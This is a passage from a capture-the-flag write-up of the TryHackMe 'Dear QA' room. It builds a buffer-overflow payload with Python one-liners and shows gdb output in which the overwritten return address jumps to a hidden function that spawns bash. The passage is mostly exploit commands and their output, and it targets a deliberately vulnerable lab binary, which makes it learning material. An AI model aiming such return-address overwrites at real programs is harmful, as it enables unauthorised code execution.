 - `680640` (which is `\x40\x06\x68`) → `400686` (which is `\x86\x06\x40`)
- `7fff` → `0000`

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Dear_QA]
└─$ python3 -c "print('A'*40+'\x86\x06\x40\x00\x00')" > exploit2

(gdb) run < exploit2
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/kali/TryHackMe/Dear_QA/ver1_DearQA.DearQA < exploit2
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@

Program received signal SIGSEGV, Segmentation fault.
0x00000000400686c2 in ?? ()
```

I don’t know why the `c2` is placed at the end of the address. But when I minus 1 character input then it worked:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Dear_QA]
└─$ python3 -c "print('A'*39+'\x86\x06\x40\x00\x00')" > exploit3

(gdb) run < exploit3
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/kali/TryHackMe/Dear_QA/ver1_DearQA.DearQA < exploit3
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
Congratulations!
You have entered in the secret function!
process 542388 is executing new program: /usr/bin/bash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Inferior 1 (process 542388) exited normally]
```

Or using `python2` instead of `python3`:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Dear_QA]
└─$ python2 -c "print'A'*40+'\x86\x06\x40\x00\x00'" > exploit4

(gdb) run < exploit4
Starting program: /home/kali/TryHackMe/Dear_QA/ver1_DearQA.DearQA < exploit4
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
Congratulations!
You have entered in the secret function!
process 543185 is executing new program: /usr/bin/bash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Inferior 1 (process 543185) exited normally]
```

